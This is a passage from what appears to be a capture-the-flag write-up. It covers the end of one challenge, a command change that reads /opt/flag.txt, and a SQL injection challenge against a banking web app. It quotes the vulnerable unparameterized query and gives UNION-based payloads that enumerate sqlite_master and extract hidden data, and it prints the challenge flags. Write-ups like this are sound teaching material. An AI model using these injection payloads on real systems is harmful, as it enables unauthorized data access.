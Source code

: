 By changing the `#cmd` variable to `#cmd = 'cat /opt/flag.txt'`, you should get the flag.

{: .box-success}
**Flag:** `Spark{B0ou3radaFTW!!_23qd45sq6}`

---

## Challenge 4: Secure BankSys

{: .box-note}
**Challenge Type:** SQL Injection

By looking at the web app, we find there are three pages:
- Main page
- Accounts
- Login

In the accounts tab, we perform a simple SQL injection.

### Vulnerability Analysis

We know the webapp is vulnerable to SQLi. The vulnerability is in the `/search` route in `app.py`:

```python
sql_query = f"SELECT account_number, customer_name, balance, account_type FROM accounts WHERE account_number LIKE '%{query}%' OR customer_name LIKE '%{query}%' OR account_type LIKE '%{query}%'"
```

{: .box-warning}
**Critical Issue:** The user input is directly concatenated into the SQL query without parameterization, making it vulnerable to SQL injection.

### Exploitation Steps

**1. Explore database structure with UNION-based injection:**
```sql
' UNION SELECT 1,2,3,4 --
```
This helps us determine the number of columns (4) and their data types.

**2. Find table names:**
```sql
' UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table' --
```
This reveals the tables: `accounts`, `users`, `internal_data`, and `search_logs`.

**3. Find column names:**
```sql
' UNION SELECT 1,2,3,sql FROM sqlite_master WHERE tbl_name = 'internal_data' -- -
```

**4. Extract flag from internal_data table:**
```sql
' UNION SELECT 1, content, 3, 4 FROM internal_data --
```

{: .box-success}
**Flag:** `Spark{G00d_J0B_K1nG_Y0u_4R3_C00k1nGG_1ZSQMLK9LQSX21}`

---